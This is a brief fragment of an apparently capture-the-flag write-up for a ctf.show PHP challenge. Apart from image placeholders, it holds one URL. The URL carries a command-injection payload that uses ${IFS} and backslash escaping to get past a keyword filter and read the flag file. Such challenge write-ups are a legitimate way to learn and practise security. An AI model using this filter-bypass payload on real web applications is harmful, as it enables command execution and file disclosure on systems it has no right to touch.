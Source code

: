 <figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

```php
http://22058a52-1ccb-4cdd-b345-585108f54e44.challenge.ctf.show/?c=nl${IFS}fla\g.php||
```

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
